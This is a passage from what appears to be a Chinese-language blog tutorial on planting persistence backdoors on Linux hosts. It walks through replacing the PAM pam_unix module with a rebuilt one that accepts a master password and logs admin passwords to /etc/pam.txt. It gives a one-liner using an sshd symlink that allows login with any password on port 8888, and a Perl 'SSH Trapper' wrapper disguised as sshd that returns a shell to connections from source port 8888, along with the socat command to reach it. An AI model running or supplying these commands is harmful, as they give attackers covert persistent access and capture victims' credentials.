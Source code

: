         

3）修改源码，添加后门代码

    vim ./Linux-PAM-1.1.8/modules/pam_unix/pam_unix_auth.c
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004221247797.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
4）替换原有 PAM 模块，添加后门

    cd Linux-PAM-1.1.8
    
    编译 PAM 源码
    ./configure && make
    
    备份原有 PAM 模块
    mv /lib/x86_64-linux-gnu/security/pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so.bak
    
    使用新编译的 PAM 模块替换原有模块
    cp ./modules/pam_unix/.libs/pam_unix.so /lib/x86_64-linux-gnu/security/
    
        

**后门测试**

使用添加的密码 test 登陆-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004221340820.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
当管理员登陆成功时，密码会被记录在 /etc/pam.txt 中-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004221352278.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

##### SSH后门

执行下面的命令后可使用任意密码 ssh 连接目标机器 8888 端口

    ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
    
        

##### SSH Trapper后门

后门比较隐蔽，没有开放额外的端口，只要对方开了 ssh 服务，就能远程连接

如果源端口是 8888 就直接反弹 shell，否则就把请求转发给真正的 ssh 服务

后门伪装成一个 perl 脚本，名为 sshd，位于 /usr/sbin/sshd，将系统原来的 sshd 移到 /usr/bin 下

**创建后门**

    cd /usr/sbin/
    mv sshd ../bin/
    echo '#!/usr/bin/perl' >sshd
    echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^.."\xb8/);' >>sshd
    echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
    chmod u+x sshd
    /etc/init.d/sshd restart
    
        

**连接后门**

    socat STDIO TCP4:192.168.148.128:22,sourceport=8888;
    